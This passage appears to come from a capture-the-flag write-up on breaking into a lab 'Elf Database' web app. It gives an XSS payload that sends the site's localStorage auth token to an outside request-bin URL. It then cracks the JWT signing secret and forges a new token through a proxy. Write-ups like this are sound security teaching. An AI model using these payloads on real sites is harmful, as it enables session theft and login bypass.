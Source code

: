 ![edb]({{ site.baseurl }}/images/sans2017/edb.png)

#### North Pole Elf Database (EDB)

For this challenge we will set up a tunnel to EDB (10.142.0.6) and an entry for it in the hosts file just like we did for other systems. Based on the recon and the hints it seems that we need to use XSS to exploit this system. 

As we inspect the site JavaScript we can see that it is using browser local storage for storing an authentication token ```np-auth```.

First, let's use XSS to steal Alabaster's token. The following XSS, when submitted to the site, gets the token exfiltrated:

```javascript
<img src=x onerror="var o=new XMLHttpRequest();o.open('GET',
'https://requestb.in/qfa38mqf?'+(localStorage.getItem('np-auth')));o.send();">
```

The result is a JWT token:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I
```
 
When we open it in [JWT Editor](https://jwt.io/) we can see the payload. 

```json
{
  "dept": "Engineering",
  "ou": "elf",
  "expires": "2017-08-16 12:00:47.248093+00:00",
  "uid": "alabaster.snowball"
}
```

The token is expired. We need to update it (e.g. by bumping up the year). In order to do it let's first crack its encryption key:

```
$ ./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I
Secret is "3lv3s"
```

Once we re-encrypt the updated token we can substitute it in the response to get it stored in our browser's local storage. To do that we can an HTTP proxy to dynamically replace the login error message...:

```
{"bool":false,"message":"Incorrect username or password!","token":""}
```

...with the following data:

```
{"bool": true,"link":"/home.html",
"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE4LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.gr2b8plsmw_JCKbomOUR-E7jLiSMeQ-evyYjcxCPXco"}
```
